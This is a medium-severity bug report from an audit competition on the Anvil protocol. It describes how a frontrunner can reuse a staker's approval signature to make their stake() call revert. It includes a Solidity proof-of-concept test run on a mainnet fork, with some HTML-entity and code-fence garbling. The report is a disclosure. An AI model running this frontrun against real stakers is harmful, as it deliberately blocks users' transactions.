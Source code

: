 # #36532 \[SC-Medium] Frontrun to invalidate collateralizable approval signature

**Submitted on Nov 5th 2024 at 09:58:52 UTC by @trtrth for** [**Audit Comp | Anvil**](https://immunefi.com/audit-competition/audit-comp-anvil)

* **Report ID:** #36532
* **Report Type:** Smart Contract
* **Report severity:** Medium
* **Target:** https://etherscan.io/address/0xd042C267758eDDf34B481E1F539d637e41db3e5a
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

The contract \`TimeBasedCollateralPool\` allows a staker to stake using the collateralizable approval signature, which is verified by \`CollateralVault\` contract. In case a staker tries to stake using collateralizable approval signature, a malicious actor can frontrun with the staker's valid signature, which then cause the staker's transaction to be reverted.

## Vulnerability Details

The function \`TimeBasedCollateralPool::stake()\` calls function \`CollateralVault::modifyCollateralizableTokenAllowanceWithSignature()\` if the signature is passed from caller:

\`\`\`solidity function stake(IERC20 \_token, uint256 \_amount, bytes calldata \_collateralizableApprovalSignature) external withEligibleAccountTokensReleased(msg.sender, address(\_token)) returns (uint256) { if (\_collateralizableApprovalSignature.length > 0) { @> collateral.modifyCollateralizableTokenAllowanceWithSignature( msg.sender, address(this), address(\_token), Pricing.safeCastToInt256(\_amount), \_collateralizableApprovalSignature ); }

```
    return _stake(_token, _amount);
}
```

\`\`\`

The function \`CollateralVault::modifyCollateralizableTokenAllowanceWithSignature()\` will update the account's collateralizable allowance if the given signature is valid without any restrictions for the caller. The transaction effectively increases nonce for the signer account.

So there will be cases when a malicious actor front-runs a staker by a transaction calling \`modifyCollateralizableTokenAllowanceWithSignature()\` with the signature collected from staker's \`stake()\` transaction. As a result, the \`stake()\` transaction will be reverted because of invalid nonce

## Impact Details

* Griefing, since the attacker makes no profit and the staker can submit another transaction to successfully stakes

## References

https://github.com/AcronymFoundation/anvil-contracts/blob/1bbe04bb6f1aa1beea0ebf55e1bad67da3aa0f87/contracts/CollateralVault.sol#L294-L311

https://github.com/AcronymFoundation/anvil-contracts/blob/1bbe04bb6f1aa1beea0ebf55e1bad67da3aa0f87/contracts/CollateralVault.sol#L793-L823

https://github.com/AcronymFoundation/anvil-contracts/blob/1bbe04bb6f1aa1beea0ebf55e1bad67da3aa0f87/contracts/CollateralVault.sol#L587-L630

https://github.com/AcronymFoundation/anvil-contracts/blob/1bbe04bb6f1aa1beea0ebf55e1bad67da3aa0f87/contracts/TimeBasedCollateralPool.sol#L648-L663

## Proof of Concept

## Proof of Concept

This PoC is created as a Solidity test file under repository https://github.com/AcronymFoundation/anvil-contracts/tree/main

\`\`\`solidity pragma solidity 0.8.25;

import "forge-std/Test.sol"; import {TimeBasedCollateralPool} from "src/TimeBasedCollateralPool.sol"; import {CollateralVault} from "src/CollateralVault.sol"; import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract PocTest is Test { CollateralVault collateralVault = CollateralVault(0x5d2725fdE4d7Aa3388DA4519ac0449Cc031d675f);

```
TimeBasedCollateralPool TBCP;

IERC20 usdc &#x3D; IERC20(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

address attacker;
address victim;
uint256 victimPK;
bytes32 domainSeparator;
bytes32 private constant TYPE_HASH &#x3D;
    keccak256(&quot;EIP712Domain(string name,string version,uint256 chainId,address verifyingContract)&quot;);

bytes32 internal constant COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH &#x3D; keccak256(
    &quot;CollateralizableTokenAllowanceAdjustment(address collateralizableAddress,address tokenAddress,int256 allowanceAdjustment,uint256 approverNonce)&quot;
);

function setUp() public {
    vm.createSelectFork(&quot;https://rpc.ankr.com/eth&quot;, 21120353);

    (victim, victimPK) &#x3D; makeAddrAndKey(&quot;victim&quot;);
    attacker &#x3D; makeAddr(&quot;attacker&quot;);

    deal(address(usdc), victim, 1000e6);

    (, string memory name, string memory version, uint256 chainId, address verifyingContract,,) &#x3D;
        collateralVault.eip712Domain();

    // calc domain separator
    domainSeparator &#x3D; keccak256(
        abi.encode(TYPE_HASH, keccak256(bytes(name)), keccak256(bytes(version)), chainId, verifyingContract)
    );

    // 1. create a TBCP contracts and initialize
    TBCP &#x3D; new TimeBasedCollateralPool();
    TBCP.initialize(
        collateralVault, 3600, address(this), address(this), address(this), address(this), address(this)
    );

    // 2. approve the TBCP contract
    vm.startPrank(collateralVault.owner());
    CollateralVault.CollateralizableContractApprovalConfig[] memory configs &#x3D;
        new CollateralVault.CollateralizableContractApprovalConfig[](1);
    configs[0].collateralizableAddress &#x3D; address(TBCP);
    configs[0].isApproved &#x3D; true;

    collateralVault.upsertCollateralizableContractApprovals(configs);
}

function test_poc() public {
    vm.startPrank(victim);

    // 3. victim approve CollateralVault contract
    usdc.approve(address(collateralVault), 1000e6);

    // 4. victim deposits to CollateralVault
    address[] memory tokens &#x3D; new address[](1);
    uint256[] memory amounts &#x3D; new uint256[](1);

    tokens[0] &#x3D; address(usdc);
    amounts[0] &#x3D; 1000e6;

    collateralVault.depositToAccount(victim, tokens, amounts);

    // 5. victim signs the COLLATERALIZABLE_TOKEN_ALLOWANCE signature
    bytes memory sig &#x3D; _sign_adjust_allowance(victimPK, address(TBCP), address(usdc), int256(1000e6), 0);

    // 6. Attacker frontruns with the above signature
    vm.startPrank(attacker);
    collateralVault.modifyCollateralizableTokenAllowanceWithSignature(
        victim, address(TBCP), address(usdc), int256(1000e6), sig
    );

    // 7. Victim&#x27;s stake() transaction fails
    vm.expectRevert();
    vm.startPrank(victim);
    TBCP.stake(usdc, 1000e6, sig);
}

function _sign_adjust_allowance(uint256 pk, address target, address token, int256 amount, uint256 nonce)
    internal
    view
    returns (bytes memory signature)
{
    bytes32 digest &#x3D; getTypedDataHash(target, token, amount, nonce);

    (uint8 v, bytes32 r, bytes32 s) &#x3D; vm.sign(pk, digest);
    signature &#x3D; abi.encodePacked(r, s, v);
}

function getStructHash(address target, address token, int256 amount, uint256 nonce)
    internal
    pure
    returns (bytes32)
{
    return keccak256(abi.encode(COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH, target, token, amount, nonce));
}

function getTypedDataHash(address target, address token, int256 amount, uint256 nonce)
    internal
    view
    returns (bytes32)
{
    return keccak256(abi.encodePacked(&quot;\x19\x01&quot;, domainSeparator, getStructHash(target, token, amount, nonce)));
}
```

}

\`\`\`

The test would pass since the call at step 7 fails due to InvalidSignature error
